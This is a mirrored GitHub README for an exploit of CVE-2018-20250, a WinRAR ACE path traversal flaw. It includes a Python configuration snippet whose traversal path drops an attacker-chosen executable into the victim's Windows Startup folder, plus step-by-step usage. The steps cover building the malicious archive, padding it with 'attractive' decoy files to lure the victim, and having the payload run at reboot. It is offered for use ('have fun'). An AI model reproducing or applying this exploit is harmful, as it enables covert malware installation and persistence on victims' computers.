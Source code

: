 # CVE-2018-20250

exp for https://research.checkpoint.com/extracting-code-execution-from-winrar

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/WyAtu](https://github.com/WyAtu) |
| Url      | [https://github.com/WyAtu/CVE-2018-20250](https://github.com/WyAtu/CVE-2018-20250)                                               |
| Stars    | 485                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

exp for [Extracting Code Execution From Winrar](https://research.checkpoint.com/extracting-code-execution-from-winrar/)

[poc](https://github.com/Ridter/acefile) by Ridter

how to use ?

you just need to install python 3.7, and prepare a evil file you want to run, set the values you want, **this exp script will generate the evil archive file automatically**!

1. set the values you want

```
... ...

# The archive filename you want
rar_filename = "test.rar"
# The evil file you want to run
evil_filename = "calc.exe"
# The decompression path you want, such shown below
target_filename = r"C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\hi.exe"
# Other files to be displayed when the victim opens the winrar
# filename_list=[]
filename_list = ["hello.txt", "world.txt"]

... ...

def get_right_hdr_crc(filename):
    # This command may be different, it depends on the your Python3 environment.
    p = os.popen('py -3 acefile.py --headers %s'%(filename))
    res = p.read()
    pattern = re.compile('right_hdr_crc : 0x(.*?) | struct')
    result = pattern.findall(res)
    right_hdr_crc = result[0].upper()
    return hex2raw4(right_hdr_crc)

... ...

```

2. run the exp, exp generated the `test.rar` automatically

![](http://imglf5.nosdn.127.net/img/TnVEN1Q3NkoyR0l5aDVmNFA4MnZMVExtcGVqSGZUdDFBWGgyaGU0NGpHWUlPdmU1bHJTMFJ3PT0.jpg?imageView&thumbnail=500x0)

3. if the victim opens the `test.rar`, he will see the file `hello.txt` and `world.txt`, you can also add more files, more attractive files.

![](http://imglf6.nosdn.127.net/img/TnVEN1Q3NkoyR0l5aDVmNFA4MnZMV0IrVk1NeUxJcWh6aXV3TVFHek8zbXBZaFNhamY4aHBBPT0.jpg?imageView&thumbnail=500x0)

4. when he unpacks the file, the victim's user startup directory will have one more file named `hi.exe`, actually it's a `calc.exe`. when he restart the computer, the `hi.exe` will run.

![](http://imglf3.nosdn.127.net/img/TnVEN1Q3NkoyR0l5aDVmNFA4MnZMV0puYkhZTVkvc1hmK2E3KzBYdmZ0cU5yUzFGVVk0THRnPT0.jpg?imageView&thumbnail=500x0)

have fun! :)



## Get the content

```
git clone https://github.com/WyAtu/CVE-2018-20250
cd CVE-2018-20250
```

{% embed url="https://github.com/WyAtu/CVE-2018-20250" %}

<figure><img src="https://avatars.githubusercontent.com/u/23521935?v=4" alt=""><figcaption><p>WyAtu</p></figcaption></figure>

